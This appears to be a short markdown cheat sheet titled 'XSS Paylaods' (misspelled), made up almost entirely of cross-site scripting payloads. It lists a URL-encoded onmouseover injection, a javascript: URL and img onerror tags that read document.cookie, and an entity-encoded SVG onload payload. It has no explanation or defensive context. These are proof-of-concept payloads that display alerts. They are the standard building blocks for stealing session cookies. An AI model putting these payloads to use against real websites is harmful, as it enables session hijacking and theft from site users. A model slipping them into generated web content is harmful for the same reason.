 # XSS Paylaods

```html
t3_u9po1l%2520onmouseover=alert(document.domain)%2520y=/t1_i5sxroa

javascript:alert(document.cookie)

"><img src=x onerror=prompt(document.cookie);> 

"><img src=x onerror=alert(1)>

<h1>Testing TG</h1>
```
`"><SVG ONLOAD%3d%26%2397%26%23108%26%23101%26%23114%26%23116(%26%23x64%26%23x6f%26%23x63%26%23x75%26%23x6d%26%23x65%26%23x6e%26%23x74%26%23x2e%26%23x63%26%23x6f%26%23x6f%26%23x6b%26%23x69%26%23x65%26%23x29>`
